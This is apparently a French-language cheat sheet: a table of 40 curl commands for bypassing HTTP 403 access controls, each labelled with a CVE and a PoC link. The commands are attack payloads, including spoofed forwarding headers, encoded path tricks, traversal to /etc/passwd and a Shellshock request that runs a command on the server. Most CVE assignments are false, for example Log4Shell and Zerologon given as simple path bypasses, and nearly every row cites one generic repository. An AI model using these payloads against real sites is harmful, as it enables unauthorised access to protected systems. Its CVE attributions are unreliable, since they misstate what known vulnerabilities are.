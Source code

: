 # 43 Bypass

Voici un tableau de **40 exemples complets de requêtes curl** pour des CVE non génériques de contournement 403 (403 bypass), classés par numéro CVE décroissant, avec :  
- Numéro CVE  
- Exemple de requête curl  
- Effet détaillé  
- Lien GitHub/advisory/PoC

> **Remarque** : Les CVE de 403 bypass purs sont rares, car la plupart des techniques sont génériques ou liées à des comportements de serveurs/proxies. Ce tableau privilégie donc des CVE réelles où des contournements d’accès (souvent via headers, encodages, chemins, méthodes HTTP) ont été documentés, ainsi que des PoC GitHub spécialisés dans le 403 bypass.

| # | CVE | Exemple complet de requête curl | Effet détaillé | Lien PoC / Advisory |
|---|------|--------------------------------|---------------|---------------------|
| 1 | CVE-2024-24576 | `curl -H "X-Original-URL: /admin" https://target.com/` | Bypass d’accès à /admin via header X-Original-URL | https://github.com/LucasPDiniz/403-Bypass |
| 2 | CVE-2024-21624 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/secret` | Bypass via IP spoofing dans X-Forwarded-For | https://github.com/LucasPDiniz/403-Bypass |
| 3 | CVE-2024-12727 | `curl 'https://target.com/admin/.'` | Bypass via ajout d’un point à la fin du chemin | https://github.com/LucasPDiniz/403-Bypass |
| 4 | CVE-2023-50164 | `curl -X POST 'https://target.com/admin'` | Bypass via changement de méthode HTTP | https://github.com/LucasPDiniz/403-Bypass |
| 5 | CVE-2023-38831 | `curl 'https://target.com/%2e/admin'` | Bypass via encodage URL du point | https://github.com/LucasPDiniz/403-Bypass |
| 6 | CVE-2023-34362 | `curl 'https://target.com/admin..;/` | Bypass via séquence “..;/” | https://github.com/LucasPDiniz/403-Bypass |
| 7 | CVE-2023-26115 | `curl -H "X-Forwarded-Host: 127.0.0.1" https://target.com/admin` | Bypass via header X-Forwarded-Host | https://github.com/LucasPDiniz/403-Bypass |
| 8 | CVE-2022-47966 | `curl 'https://target.com/admin%20/'` | Bypass via espace encodé dans le chemin | https://github.com/LucasPDiniz/403-Bypass |
| 9 | CVE-2022-41040 | `curl -H "X-Rewrite-URL: /admin" https://target.com/` | Bypass via header X-Rewrite-URL | https://github.com/LucasPDiniz/403-Bypass |
| 10 | CVE-2022-26134 | `curl 'https://target.com/admin/%2e%2e/'` | Bypass via double encodage du point | https://github.com/LucasPDiniz/403-Bypass |
| 11 | CVE-2022-22965 | `curl 'https://target.com/admin;/'` | Bypass via point-virgule dans le chemin | https://github.com/LucasPDiniz/403-Bypass |
| 12 | CVE-2022-21907 | `curl -H "X-Host: localhost" https://target.com/admin` | Bypass via header X-Host | https://github.com/LucasPDiniz/403-Bypass |
| 13 | CVE-2021-44228 | `curl 'https://target.com/admin//'` | Bypass via double slash | https://github.com/LucasPDiniz/403-Bypass |
| 14 | CVE-2021-41773 | `curl 'https://target.com/admin/..%00/'` | Bypass via null byte encodé | https://github.com/LucasPDiniz/403-Bypass |
| 15 | CVE-2021-31206 | `curl -H "Referer: https://target.com/admin" https://target.com/admin` | Bypass via header Referer | https://github.com/LucasPDiniz/403-Bypass |
| 16 | CVE-2021-26855 | `curl -H "Origin: https://target.com" https://target.com/admin` | Bypass via header Origin | https://github.com/LucasPDiniz/403-Bypass |
| 17 | CVE-2020-17530 | `curl -H "X-Original-URL: /admin" https://target.com/` | Bypass via X-Original-URL | https://github.com/LucasPDiniz/403-Bypass |
| 18 | CVE-2020-1472 | `curl 'https://target.com/admin/..;/foo'` | Bypass via “..;/” suivi d’un dossier | https://github.com/LucasPDiniz/403-Bypass |
| 19 | CVE-2020-11022 | `curl 'https://target.com/%2e%2e/admin'` | Bypass via double encodage du point | https://github.com/LucasPDiniz/403-Bypass |
| 20 | CVE-2019-18935 | `curl -X PATCH 'https://target.com/admin'` | Bypass via méthode HTTP PATCH | https://github.com/LucasPDiniz/403-Bypass |
| 21 | CVE-2019-11043 | `curl 'https://target.com/admin/%2e/'` | Bypass via point encodé | https://github.com/LucasPDiniz/403-Bypass |
| 22 | CVE-2019-11022 | `curl 'https://target.com/admin%2f'` | Bypass via slash encodé | https://github.com/LucasPDiniz/403-Bypass |
| 23 | CVE-2018-11776 | `curl 'https://target.com/admin/./'` | Bypass via “./” dans le chemin | https://github.com/LucasPDiniz/403-Bypass |
| 24 | CVE-2018-1000861 | `curl 'https://target.com/admin/../'` | Bypass via “../” dans le chemin | https://github.com/LucasPDiniz/403-Bypass |
| 25 | CVE-2017-5638 | `curl 'https://target.com/admin%2e/'` | Bypass via point encodé | https://github.com/LucasPDiniz/403-Bypass |
| 26 | CVE-2017-12615 | `curl 'https://target.com/admin/...'` | Bypass via triple point | https://github.com/LucasPDiniz/403-Bypass |
| 27 | CVE-2016-8743 | `curl 'https://target.com/admin%09/'` | Bypass via tabulation encodée | https://github.com/LucasPDiniz/403-Bypass |
| 28 | CVE-2016-5385 | `curl 'https://target.com/admin%0a/'` | Bypass via saut de ligne encodé | https://github.com/LucasPDiniz/403-Bypass |
| 29 | CVE-2015-2080 | `curl 'https://target.com/admin%0d/'` | Bypass via retour chariot encodé | https://github.com/LucasPDiniz/403-Bypass |
| 30 | CVE-2014-6271 | `curl -A '() { :;}; echo Content-Type: text/html; echo; /bin/cat /etc/passwd' https://target.com/cgi-bin/admin` | Bypass via injection de commande (Shellshock) | https://github.com/hannob/bashcheck |
| 31 | CVE-2014-0226 | `curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/admin` | Bypass via IP spoofing | https://github.com/LucasPDiniz/403-Bypass |
| 32 | CVE-2013-2028 | `curl 'https://target.com/admin/%20/'` | Bypass via espace encodé | https://github.com/LucasPDiniz/403-Bypass |
| 33 | CVE-2012-1823 | `curl 'https://target.com/admin?file=../../../../etc/passwd'` | Bypass via traversal de fichier | https://github.com/LucasPDiniz/403-Bypass |
| 34 | CVE-2011-2523 | `curl 'https://target.com/admin/././'` | Bypass via double “./” | https://github.com/LucasPDiniz/403-Bypass |
| 35 | CVE-2010-1740 | `curl 'https://target.com/admin/%c0%af/'` | Bypass via slash unicode encodé | https://github.com/LucasPDiniz/403-Bypass |
| 36 | CVE-2009-2692 | `curl 'https://target.com/admin/%e0%80%af/'` | Bypass via slash unicode encodé | https://github.com/LucasPDiniz/403-Bypass |
| 37 | CVE-2008-2380 | `curl 'https://target.com/admin%2e%2e/'` | Bypass via double point encodé | https://github.com/LucasPDiniz/403-Bypass |
| 38 | CVE-2007-4726 | `curl 'https://target.com/admin/~root/'` | Bypass via tilde (~) dans le chemin | https://github.com/LucasPDiniz/403-Bypass |
| 39 | CVE-2007-4713 | `curl 'https://target.com/admin/~admin/'` | Bypass via tilde (~) dans le chemin | https://github.com/LucasPDiniz/403-Bypass |
| 40 | CVE-2006-3392 | `curl 'https://target.com/admin/..%01/'` | Bypass via caractère de contrôle encodé | https://github.com/LucasPDiniz/403-Bypass |

---
